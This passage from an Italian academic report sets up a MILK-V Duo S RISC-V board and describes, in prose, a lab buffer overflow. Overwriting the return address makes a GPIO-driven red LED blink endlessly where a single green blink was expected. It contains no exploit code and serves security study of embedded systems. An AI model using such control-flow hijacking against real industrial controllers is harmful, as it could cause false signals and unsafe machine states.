In questa sezione si discuterà di attacchi su system on a chip basati su RISC-V che permettono di manipolare elementi hardware pilotati da driver di sistema e pin GPIO.\\
Con questa sezione si vuole porre importanza sulla sicurezza in questo tipo di processori su sistemi embedded che usano l'ISA RISC-V. Lo scenario che si è pensato è quello di avere questa architettura su un processore che gestisce un macchinario a controllo numerico oppure un macchinario automatico che comunica con il controllore umano attraverso dei LED di stato. Se il LED è verde, l'operazione si è conclusa con successo, se il LED è rosso lampeggiante, invece l'operazione è fallita e serve una revisione dell'oggetto.
\subsection*{Setup dell'ambiente}
\addcontentsline{toc}{subsection}{Setup dell'ambiente}
I test per questa sezione si sono concentrati sulla scheda MILK-V Duo S, ma sarebbero analoghi sulla stessa scheda di dimensioni RAM e capacità di calcolo ridotte MILK-V Duo.\\
Per prima cosa si è eseguito il ``firmware burning" dell' eMMC, ovvero la memoria integrata sulla scheda facendo il flash da un sistema esterno, tramite connessione USB. In seguito tramite connessione UART \cite{rohdeschwarz}(seriale) eseguita grazie ad un adattatore \textit{USB-to-UART} è stato possibile connettersi al processo di boot gestito da \textit{opensbi} \cite{OpenSBI}. Nelle figure sottostanti sono presentate le connessioni tra UART e MILK-V, il collegamento USB-C al MILK-V per il flash del firmware e un cavo RJ45 per la connessione ethernet alla scheda.
\FloatBarrier
\vspace{1cm}
\begin{figure}[!htb]
\minipage{0.32\textwidth}
  
\includegraphics[width=\linewidth]{images/uart_usb.jpg}
  \caption{Adattatore UART-to-USB}\label{fig:awesome_image1}
\endminipage\hfill
\minipage{0.32\textwidth}
  
\includegraphics[width=\linewidth]{images/duo_up.jpg}
  \caption{Pinout su scheda MILK-V Duo S}\label{fig:awesome_image2}
\endminipage\hfill
\minipage{0.32\textwidth}%
  
\includegraphics[width=\linewidth]{images/duo_uart.jpg}
  \caption{Setup completo della scheda}\label{fig:awesome_image3}
\endminipage
\end{figure}
\vspace{1cm}
\FloatBarrier
I pin sono collegati nel seguente modo
\begin{itemize}
    \item GND (pin 6) - Cavo nero
    \item TX (pin 8) - Cavo bianco
    \item RX (pin 10) - Cavo verde
\end{itemize}
Una volta completato il collegamento tra scheda e adattatore, è possibile inserire una scheda micro-SD sulla quale è stato flashato un sistema operativo compatibile con RISC-V.
\vspace{1cm}
\FloatBarrier
\begin{figure}[!htbp]
    \centering
    
\includegraphics[width=0.3\linewidth]{images/duo_bottom.jpg}
    \caption{Scheda SD inserita nel MILK-V}
\end{figure}
\FloatBarrier
\vspace{1cm}
In questo caso per facilità è stato scelto Ubuntu 22.04.4 LTS a 64 bit. Una volta che il processo di boot è avvenuto correttamente ed è stato fatto il setup dell'OS, è possibile rimuovere la connessione seriale e collegarsi via rete tramite SSH.
\FloatBarrier
\vspace{1cm}
\begin{figure}[!htbp]
    \centering
    
\includegraphics[width=0.5\linewidth]{images/ubuntu-milkv.png}
    \caption{Avvio del sistema Ubuntu su MILK-V}
\end{figure}
\vspace{1cm}
\FloatBarrier
Si può notare come un sistema Ubuntu su processore RISC-V riesca ad utilizzare solamente 44MiB di RAM per funzionare. Dopo alcune configurazioni di base come la configurazione di rotte per comunicazione con internet e l'aggiornamento delle repository il sistema è pronto per il funzionamento.
\subsection*{Buffer Overflow su MILK-V}
\addcontentsline{toc}{subsection}{Buffer Overflow su MILK-V}
Per l'esperimento su questa scheda, si sono utilizzati i pin GPIO per accendere e spegnere in maniera elettrica del LED, fornendo un voltaggio di 3.3V in output. Per utilizzare questi pin è necessario scrivere dei driver posti a \texttt{/sys/class/gpio/export}.
\FloatBarrier
\vspace{1cm}
\begin{figure}[!htbp]
    \centering
    
\includegraphics[width=0.5\linewidth]{images/blink.jpg}
    \caption{Blink tramite GPIO}
\end{figure}
\vspace{1cm}
\FloatBarrier
Il programma che è stato analizzato fornisce due funzioni, una \textit{green()} e una \textit{red()} le quali forniscono la capacità alla scheda MILK-V di far fare un blink (breve accensione seguita da uno spegnimento) di LED rispettivamente rosso e verde.\\
Nel programma è presente una funzione vulnerabili sulla quale l'attaccante può fare buffer overflow e sovrascrivere l'indirizzo di ritorno. La normale esecuzione del programma chiama una volta il blink del LED verde ed esce con codice 0 (successful), ma se un attaccante sfrutta l'overflow, può chiamare funzioni arbitrarie e quindi la funzione \textit{red()} anche se non dovrebbe essere eseguita. In questo caso l'attaccante atterra all'indirizzo iniziale della funzione \textit{red()} in cui viene salvato l'indirizzo di ritorno sul registro \textit{ra}.\\
\newline
Dal punto di vista del flusso d'esecuzione dell'attacco, quando viene sovrascritto l'indirizzo di ritorno della funzione vulnerabile, viene salvato in \textit{ra} l'indirizzo controllato dall'attaccante. Questo vuol dire che durante al ritorno della funzione vulnerabile si salterà alla funzione \textit{red()}. Questa funzione a sua volta salva sullo stack l'indirizzo di ritorno a cui dovrebbe ritornare una volta finita la funzione e salva nel registro \textit{ra} lo stesso indirizzo che l'attaccante ha impostato arbitrariamente.\\
Durante tutta l'esecuzione della funzione \textit{red()}, si avrà quindi che il registro \textit{ra} sarà sempre caricato dello stesso indirizzo, ovvero l'indirizzo dell'inizio di \textit{red()}. Come si vede in figura \ref{ref:ra_milkv} l'effetto finale di questo salto controllato dall'attaccante è la funzione \textit{red()} chiamata all'infinito, dato che \textit{ra} rimarrà sempre con lo stesso valore dal momento dell'overflow in poi.\\
Questo nell'esecuzione del programma causerà il lampeggiamento del LED rosso finché il programma non viene interrotto, invece del singolo lampeggiamento del LED verde. Se lo stesso programma viene utilizzato come segnalatore al controllore dello scenario descritto in precedenza, potrebbe causare falsi positivi o situazioni critiche in caso di scenari di precisione.
\FloatBarrier
\vspace{1cm}
\begin{figure}[!htbp]
    \centering
